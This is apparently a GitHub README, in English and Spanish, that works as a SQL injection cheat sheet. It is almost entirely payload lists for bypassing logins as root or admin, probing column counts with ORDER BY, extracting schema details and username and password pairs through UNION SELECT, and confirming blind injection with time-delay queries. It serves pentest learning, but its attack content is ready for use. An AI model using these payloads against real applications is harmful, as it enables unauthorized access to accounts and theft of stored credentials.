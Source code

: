 # SQLi
This is how SQL Injection works:
- [LoginByPass](https://github.com/erik-451/SQLi/blob/main/LoginByPass.md)
- [PortSwigger CheatSheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

![SQLi](https://user-images.githubusercontent.com/47476901/124319507-3bbe1600-db72-11eb-976f-872635141ea9.PNG)

### 1- Login inyection
Estos payloads hacen referencia inyeciones de consultas de sql, tambien se pueden usar en los logins para conseguir el usuario de administrador generalmente.
```bash
root' --
root' #
root'/*
root' or '1'='1
root' or '1'='1'--
root' or '1'='1'#
root' or '1'='1'/*
root'or 1=1 or ''='
root' or 1=1
root' or 1=1--
root' or 1=1#
root' or 1=1/*
root') or ('1'='1
root') or ('1'='1'--
root') or ('1'='1'#
root') or ('1'='1'/*
root') or '1'='1
root') or '1'='1'--
root') or '1'='1'#
root') or '1'='1'/*

or 1=1
or 1=1--
or 1=1#
or 1=1/*
' or 1=1
' or 1=1--
' or 1=1#
' or 1=1 #
' or 1=1/*
" or 1=1
" or 1=1--
" or 1=1#
" or 1=1/*

1' or '1'='1

root" --
root" #
root"/*
root" or "1"="1
root" or "1"="1"--
root" or "1"="1"#
root" or "1"="1"/*
root" or 1=1 or ""="
root" or 1=1
root" or 1=1--
root" or 1=1#
root" or 1=1/*
root") or ("1"="1
root") or ("1"="1"--
root") or ("1"="1"#
root") or ("1"="1"/*
root") or "1"="1
root") or "1"="1"--
root") or "1"="1"#
root") or "1"="1"/*

admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*

admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin' or 1=1-- -
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
```
------------------------------------------
### 2- Determinar el número de columnas necesarias en un ataque UNION de inyección SQL
```sql
' ORDER BY 1--
```
Podemos ir testeando este payload para determinar cuantas columnas necesitamos. Ej: si con el payload del numero 3 significa que
la posición ORDER BY número 3 está fuera del rango del número de elementos en la lista de selección.

```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc ...
```

------------------------------------------
### 3- SQL injection UNION attacks
```sql
SELECT A, B FROM table1 UNION SELECT C, D FROM table2
```
Esta consulta SQL devolverá un único conjunto de resultados con dos columnas, que contienen los valores de las columnas A y B en la tabla1 y las columnas C y D en la tabla2.
```sql
union select 1,2-- -
union select 1,@@version
union select all 1,database()
union select all 1,table_schema from information_schema.tables 
union select all 1,table_name from information_schema.tables where table_schema='sysadmin' 
union select all 1,column_name from information_schema.columns where table_name='users' 
union select 1,(select group_concat(username,password) from sysadmin.users) 

' UNION SELECT username, password FROM users--
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--

' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc ...
```
------------------------------------------
### 4- Time delays
Los Time Delays crean un tiempo de espera al recibir la peticion cuando se ejecutan.

Delay de 5 segundos:
```sql
')) or sleep(5)='
```
Estos payloads se usan para testear si existe una inyeccion SQL porque no suponen un riesgo para la base de datos.

```sql
')) or sleep(5)='
' WAITFOR DELAY '0:0:5'--
';WAITFOR DELAY '0:0:5'-- 
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
';waitfor delay '0:0:5'--
";waitfor delay '0:0:5'--
');waitfor delay '0:0:5'--
");waitfor delay '0:0:5'--
));waitfor delay '0:0:5'--
```

